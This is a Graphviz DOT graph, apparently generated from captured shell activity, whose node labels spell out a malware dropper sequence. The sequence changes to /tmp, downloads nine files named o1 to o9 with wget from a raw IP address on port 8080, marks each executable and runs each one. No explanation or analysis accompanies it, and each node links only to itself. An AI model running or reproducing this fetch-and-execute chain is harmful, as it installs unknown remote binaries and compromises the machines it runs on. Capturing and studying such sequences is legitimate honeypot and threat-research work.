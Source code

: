digraph {
0 [label="cd /tmp "];
0 -> 0
2 [label="wget http://45.32.40.154:8080/o1 "];
2 -> 2
4 [label="wget http://45.32.40.154:8080/o2 "];
4 -> 4
6 [label="wget http://45.32.40.154:8080/o3 "];
6 -> 6
8 [label="wget http://45.32.40.154:8080/o4 "];
8 -> 8
10 [label="wget http://45.32.40.154:8080/o5 "];
10 -> 10
12 [label="wget http://45.32.40.154:8080/o6 "];
12 -> 12
14 [label="wget http://45.32.40.154:8080/o7 "];
14 -> 14
16 [label="wget http://45.32.40.154:8080/o8 "];
16 -> 16
18 [label="wget http://45.32.40.154:8080/o9 "];
18 -> 18
20 [label="chmod +x o1 "];
20 -> 20
22 [label="chmod +x o2 "];
22 -> 22
24 [label="chmod +x o3 "];
24 -> 24
26 [label="chmod +x o4 "];
26 -> 26
28 [label="chmod +x o5 "];
28 -> 28
30 [label="chmod +x o6 "];
30 -> 30
32 [label="chmod +x o7 "];
32 -> 32
34 [label="chmod +x o8 "];
34 -> 34
36 [label="chmod +x o9 "];
36 -> 36
38 [label="./o1 "];
38 -> 38
40 [label="./o2 "];
40 -> 40
42 [label="./o3 "];
42 -> 42
44 [label="./o4 "];
44 -> 44
46 [label="./o5 "];
46 -> 46
48 [label="./o6 "];
48 -> 48
50 [label="./o7 "];
50 -> 50
52 [label="./o8 "];
52 -> 52
54 [label="./o9 "];
54 -> 54
}
